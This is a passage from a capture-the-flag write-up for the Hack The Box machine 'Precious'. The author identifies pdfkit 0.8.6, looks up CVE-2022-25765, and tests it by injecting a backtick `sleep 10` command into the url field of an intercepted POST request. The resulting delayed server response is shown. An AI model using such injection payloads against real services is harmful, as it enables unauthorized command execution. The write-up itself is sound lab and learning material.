 Ok, so it was generated by `pdfkit 0.8.6`, that might be important later. 

> At this point, I did a google search for "pdfkit exploit".
> The first result was a **github repo with a big fat spoiler for this HTB box** 😱 As soon as I saw the word "Precious" I hastily closed the tab like a kid whose parents had just walked-in on them watching explicit materials.
>
> Since HTB is about learning, let's <u>instead look at the second result from that google search</u> (Snyk report, linked below)



## FOOTHOLD

Snyk Vulnerability DB has a page describing CVE-2022-25765: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
This seems to be a likely candidate, since we already know the site is using ruby-on-rails and a vulnerable version of pdfkit.

I tried catching the POST request from `precious.htb` using burp:

```
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://precious.htb
DNT: 1
Connection: close
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

url=http%3A%2F%2F10.10.14.7%3A8000%2Findex.html
```

Then I changed the request body to contain the PoC code from CVE-2022-25765 (I changed it to 10 seconds, because my connection is quite bad: 10s stands out a lot more than 5s).

```
url=http%20`sleep 10`%3A%2F%2F10.10.14.7%3A8000%2Findex.html
```



Hmm. Maybe it worked? the server seemed to wait about ten seconds before replying with its "bad URL" message:

```
HTTP/1.1 200 OK
[ ... ]
<body>
    <div class="wrapper">
        <h1 class="title">Convert Web Page to PDF</h1>
        <form action="/" method="post">
            <p>Enter URL to fetch</p><br>
            <input type="text" name="url" value="">
            <input type="submit" value="Submit">
        </form>
        <h2 class="msg">You should provide a valid URL!</h2>
    </div> 
</body>
</html>
```
